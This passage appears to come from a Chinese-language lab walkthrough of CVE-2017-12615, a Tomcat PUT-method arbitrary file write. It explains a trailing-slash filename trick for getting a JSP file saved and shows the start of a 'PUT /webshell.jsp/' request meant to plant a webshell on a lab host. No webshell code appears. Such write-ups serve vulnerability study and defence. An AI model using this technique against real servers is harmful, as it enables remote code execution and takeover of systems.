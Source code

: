 ![](resource/(CVE-2017-12615)TomcatPUT方法任意文件写入漏洞/media/rId35.png)

看到可以命令执行(我们上传的payload是命令执行的脚本)，我们也可以上传一个jsp的webshell

##### 上传姿势二：

我们知道servlet在识别1.jsp/时会把它当作非jsp文件交给DefaultServlet
来处理，而后续保存文件的时候，文件名不接受/字符，故而忽略掉

payload：(这次我们演示上传一个webshell)

    PUT /webshell.jsp/ HTTP/1.1  
    Host: 172.26.1.8:8080  
    Content-Length: 6239  
